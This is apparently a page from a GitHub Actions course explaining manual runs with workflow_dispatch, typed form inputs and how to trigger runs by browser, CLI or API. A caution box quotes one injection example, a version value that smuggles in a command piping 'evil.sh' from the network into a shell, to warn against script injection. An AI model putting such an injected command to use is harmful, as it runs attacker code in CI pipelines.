

<p align="center">
  <a href="README.md">📂 <b>Triggering Workflows in Detail</b></a> &nbsp;·&nbsp; Lesson 13 · Part 4 of 12 &nbsp;·&nbsp; ⏱️ 4 min
</p>

# 🖱️ Manual runs with `workflow_dispatch`

This is the trigger in the screenshot from GitHub's docs. It adds a **Run workflow** button to the workflow's page in the **Actions** tab.

```yaml
on: workflow_dispatch
```

| Webhook event payload | Activity types | `GITHUB_SHA` | `GITHUB_REF` |
|---|---|---|---|
| `workflow_dispatch` | Not applicable | Last commit on the `GITHUB_REF` branch or tag | Branch or tag that received the dispatch |

> [!IMPORTANT]
> **"This event will only trigger a workflow run if the workflow file is on the default branch."** This is the number-one reason the Run workflow button is missing. Merge the workflow to `main` first. After that, the form lets you pick **any** branch or tag to run on, and that branch's version of the file is used.

## 🔘 Providing inputs

A button that always does the same thing is useful. A button that asks questions first is better. Inputs turn your workflow into a small form:

<p align="center">
  
</p>

```yaml
on:
  workflow_dispatch:
    inputs:
      environment:
        description: Where to deploy
        type: choice
        options: [staging, production]
        default: staging
      version:
        description: Version to deploy, for example 1.4.2
        type: string
        required: true
      dry-run:
        description: Only print what would happen
        type: boolean
        default: true
      replicas:
        type: number
        default: 2

jobs:
  deploy:
    runs-on: ubuntu-latest
    environment: ${{ inputs.environment }}
    steps:
      - if: ${{ !inputs.dry-run }}
        env:
          VERSION: ${{ inputs.version }}
        run: ./deploy.sh "$VERSION"
```

| `type:` | Form control | Notes |
|---|---|---|
| `string` | text box | the default type |
| `choice` | dropdown | needs `options:`; arrives as a string |
| `boolean` | checkbox | a real boolean in `inputs` |
| `number` | number box | |
| `environment` | environment picker | lists the repo's [environments](https://docs.github.com/en/actions/how-tos/deploy/configure-and-manage-deployments/manage-environments) |

**Limits from the docs:** at most **25** inputs, and **65,535** characters for the whole inputs payload.

> [!WARNING]
> **Use `inputs.x`, not `github.event.inputs.x`.** Both exist, but the `inputs` context keeps booleans as booleans. `github.event.inputs` turns them into the **strings** `'true'` and `'false'`, and any non-empty string is truthy, so `if: github.event.inputs.dry-run` is **always true**. The `inputs` context also works for `workflow_call`, so the same code serves both.

> [!CAUTION]
> Inputs are typed by a person, so treat them as untrusted. Pass them through `env:` and quote them, as in the example, instead of writing `${{ inputs.version }}` straight into a `run:` script. Otherwise a "version" like `1.0; curl evil.sh | sh` becomes part of your script.

## 🚀 Three ways to press the button

| Where | How |
|---|---|
| **Browser** | Actions → pick the workflow → **Run workflow** → choose the branch, fill the form |
| **GitHub CLI** | `gh workflow run deploy.yml --ref main -f environment=production -f version=1.4.2` |
| **REST API** | `POST /repos/{owner}/{repo}/actions/workflows/deploy.yml/dispatches` with `{"ref":"main","inputs":{...}}` |

The CLI and API make `workflow_dispatch` the easiest way to start a GitHub workflow from a script, chat bot or another CI system.

---

<p align="center">
  <a href="03-filters-branches-tags-and-paths.md">⬅️ Filters: branches, tags and paths</a>
  &nbsp;&nbsp;·&nbsp;&nbsp;
  <a href="README.md">📂 Topic overview</a>
  &nbsp;&nbsp;·&nbsp;&nbsp;
  <a href="05-schedules-with-cron.md"><b>Next: Schedules with cron ➡️</b></a>
</p>
